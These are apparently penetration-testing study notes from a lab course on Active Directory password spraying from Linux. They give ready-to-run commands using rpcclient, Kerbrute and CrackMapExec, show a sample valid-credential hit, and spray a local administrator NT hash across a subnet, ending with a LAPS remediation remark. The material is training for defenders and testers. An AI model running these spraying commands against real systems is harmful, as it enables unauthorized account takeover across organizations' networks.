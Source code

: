 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
- [Internal Password Spraying - From Linux](#internal\password\spraying\-\from\linux)
      - [Using a Bash one-liner for the Attack](#Using\a\Bash\one-liner\for\the\Attack)
      - [Using Kerbrute for the Attack](#Using\Kerbrute\for\the\Attack)
      - [Using CrackMapExec & Filtering Logon Failures](#Using\CrackMapExec\&\Filtering\Logon\Failures)
    - [Local Admin Password reuse](#Local\Admin\Password\reuse)
      - [Local Admin Spraying with CrackMapExec](#Local\Admin\Spraying\with\CrackMapExec)

## Table of Contents

- [Internal Password Spraying - From Linux](#internal\password\spraying\-\from\linux)
      - [Using a Bash one-liner for the Attack](#Using\a\Bash\one-liner\for\the\Attack)
      - [Using Kerbrute for the Attack](#Using\Kerbrute\for\the\Attack)
      - [Using CrackMapExec & Filtering Logon Failures](#Using\CrackMapExec\&\Filtering\Logon\Failures)
    - [Local Admin Password reuse](#Local\Admin\Password\reuse)
      - [Local Admin Spraying with CrackMapExec](#Local\Admin\Spraying\with\CrackMapExec)


# Internal Password Spraying - From Linux

`Rpcclient` is an excellent option for performing this attack from Linux. An important consideration is that a valid login is not immediately apparent with `rpcclient`, with the response `Authority Name` indicating a successful login. We can filter out invalid login attempts by `grepping` for `Authority` in the response. The following Bash one-liner (adapted from [here](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)) can be used to perform the attack.


#### Using a Bash one-liner for the Attack

  Using a Bash one-liner for the Attack

```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Let's try this out against the target environment.

  Using a Bash one-liner for the Attack

```shell
gdxqpardo@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```


We can also use `Kerbrute` for the same attack as discussed previously.

#### Using Kerbrute for the Attack

  Using Kerbrute for the Attack

```shell
gdxqpardo@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

```


There are multiple other methods for performing password spraying from Linux. Another great option is using `CrackMapExec`. The ever-versatile tool accepts a text file of usernames to be run against a single password in a spraying attack. Here we grep for `+` to filter out logon failures and hone in on only valid login attempts to ensure we don't miss anything by scrolling through many lines of output.

#### Using CrackMapExec & Filtering Logon Failures

  Using CrackMapExec & Filtering Logon Failures

```shell
gdxqpardo@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```


```shell
gdxqpardo@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

### Local Admin Password reuse
- Admin access and the NTLM pass hash/cleartext password for the local admin acc can be attempted acros multiple hosts in the network.
- CrackMapExec it good. 
- SQL and Mcirosoft Exchange servers often have a highly privileged user logged in or have their credentials persistent in memory.

Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set. In the example below, we attempt to authenticate to all hosts in a /23 network using the built-in local administrator account NT hash retrieved from another machine. The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout. `Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`. By default, without the local auth option set, the tool will attempt to authenticate using the current domain, which could quickly result in account lockouts.


#### Local Admin Spraying with CrackMapExec

  Local Admin Spraying with CrackMapExec

```shell
gdxqpardo@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```


This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth. It is always worth looking for this issue during penetration tests, even if it is not part of our path to compromise the domain, as it is a common issue and should be highlighted for our clients. One way to remediate this issue is using the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have Active Directory manage local administrator passwords and enforce a unique password on each host that rotates on a set inter









































































































